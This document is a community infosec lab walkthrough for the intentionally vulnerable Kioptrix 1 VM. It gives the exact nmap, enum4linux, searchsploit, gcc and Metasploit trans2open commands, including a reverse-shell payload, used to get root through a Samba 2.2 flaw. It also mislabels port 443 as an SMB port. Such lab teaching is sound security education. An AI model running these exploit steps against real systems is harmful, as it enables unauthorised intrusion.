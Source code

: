 # Kioptrix 1 Walkthrough

Noisebridge has a weekly infosec lab night on Thursdays at 6:30pm. Our first lab went over Kioptrix 1. Below is a walkthrough to guide you from setup to a root shell. 

### Setting up the VM: 

First, if you don't have it already you'll need virtualization software. There are two main free options for hobbyists, VirtualBox and VMware. Use whichever one you're more comfortable with, but in terms of Kioptrix specifically VMware is simpler to set up. So once you have some virtualization software installed you need to set up some guest VMs. Download the latest version of [kali linux](https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/) (they offer images specifically for VirtualBox and VMware too), and be sure the check the hash of your download against the one published by Offensive Security. Next you're going to go to Vulnhub.com and download some vulnerable machines to practice hacking against. Today we're working on [Kioptrix #1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/), not to be confused with Kioptrix 1.1. 

When adding your VMs to your virtualization software you must choose a networking mode. There are a couple different ones, depending on your needs. Most vulnerable VM sites will tell you to segregate a vulnerable VM on your network. Host only mode is a good option for this. It creates a mini network between your host os and the guests running on it. However, the guests will not have access to the internet. NAT is another option that creates a network on your host machine for your guests, but it does allow access to the internet. Finally bridged mode, uses the host machine's IP information to connect to the network but is not ideal when you are hosting both your target and attacker. For today's exercise I've chosen NAT network for both my attacker and my host, since one of the methods we'll try requires the target to have internet access. 

#### Troubleshooting

The first step in this lab is to fire up both your attacker VM (kali) and your target VM (kioptrix). Virtualbox users, if you get a kernel panic error when firing up Kioptrix, go to your VM settings under Storage make sure that your storage type is IDE and not SATA. Also, some virtualbox users had trouble getting their Kioptrix VM to get an IP address from DHCP. Go back to your VM settings and under Network>Advanced change your adapter type from Intel PRO/1000 to PCnet PCI II. These are the two most common errors encountered by people in the lab.

### Let's Start Hacking!

#### Step 1: Enumeration

First you need to identify both your IP address and the IP of the target machine. Start by running an **ifconfig** and noting down your IP address. 

Next, discover the IP address of your target machine. I have both my attacker and target set to NAT mode I started by looking up the assigned MAC address in the VMWare settings and comparing it to the results of my nmap Ping scan.
Let's use nmap to do a ping sweep on our local network to identify the target IP.

**nmap -sP 192.168.189.0/24**

![](/images/kioptrix1/kioptrix1-1.png)

In my case, the target system is at 192.168.189.128. To check this you can enter the ip address into the browser of your attacking box and you should see: 

![](/images/kioptrix1/kioptrix1-2.png)


Let's start with a syn scan to see the open ports. This is a less intrusive scan that doesn't run as high of a risk of knocking down fragile services or closing ports.

**nmap -sS 192.168.189.128**

![](/images/kioptrix1/kioptrix1-3.png)

So there are several running services including SSH, HTTP/S, SMB, and RPC. 

SMB, or Server Message Block, is a service that has had many many security problems over the years. When you encounter open SMB ports (139 or 443) it's a good idea to investigate further. Let's use a tool called enum4linux to find out more about the SMB service running.

**enum4linux 192.168.189.128**

This will spit out a TON of information but the most useful bit is under the Share Enumeration section.
![](/images/kioptrix1/kioptrix1-5.png)

Here we can see that the Samba version is 2.2.1a
Now it's time to do some research and see if this version of samba has any vulnerabilities and public exploits. One way is to visit (exploit-db.com)[https:/exploit-db.com/search], a great database of public exploits made by the folks at Offensive Security. I personally hate CAPTCHAs so I avoid the web client like the plague. By using the command line tool **searchsploit** we can quickly search an offline version of the exploit-db.

![](/images/kioptrix1/kioptrix1-6.png)

So I did a searchsploit search for Samba 2.2 and got some results! Let's try out the Remote Command Execution exploit for Samba 2.2.8

Start by locating the exploit in your Kali system (**locate /linux/remote/10.c**) and then copying that exploit into your filepath (**cp /usr/share/exploitdb/platforms/linux/remote/10.c kioptrix1.c**). By reading the exploit we can determine how to run and compile it. In this case compiling is easy (**gcc -o kioptrix1 kioptrix1.c**). Also we see the syntax for how to run the exploit (**./kioptrix1 -b 0 -v 192.168.189.128**). Fire away!

![](/images/kioptrix1/kioptrix1-7.png)

Congratulations! You just got a root shell.

That was pretty easy, huh? Can you find other methods to exploit this machine? We could also use metasploit to exploit Samba with the trans2open method.

### Metasploit Method

Fire up metasploit and do a quick search on trans2open (**search trans2open**), which was one of the methods that we saw listed when we did a searchsploit on Samba 2.2
![](/images/kioptrix/kioptrix1-8.png)

Since we're targeting a linux system lets use the following exploit.
**use exploit/linux/samba/trans2open**

If you're new to metasploit you can use commands like **show info** or **show options** to get more information about the module. We set the target system with **set RHOSTS {target IP}**. The standard payload for this module is a staged meterpreter, but it can be very unstable against kioptrix. I had the most success with setting a simple payload like **linux/x86/shell_reverse_tcp**. After you have set all the required settings show under show options, type **exploit** to run the module.

![](/images/kioptrix1/kioptrix1-9.png)

We just got another root shell!

Next week we'll be moving on to Kioptrix 2 (AKA Kioptrix 1.1).

Check back for more walkthroughs.






